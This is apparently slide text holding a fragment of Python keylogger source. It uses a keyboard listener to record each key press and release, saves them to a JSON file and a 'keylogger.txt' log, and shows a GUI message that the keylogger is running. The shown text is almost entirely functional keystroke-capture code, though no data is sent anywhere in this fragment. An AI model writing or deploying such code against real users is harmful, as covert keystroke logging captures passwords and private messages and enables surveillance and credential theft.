

flag = True
    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )
    generate_json_file(keys_used)
def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released': f'{key}'}
    )
    if flag == True:
        flag = False
    generate_json_file(keys_used)
    keys = keys + str(key)
    generate_text_log(str(keys))
def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')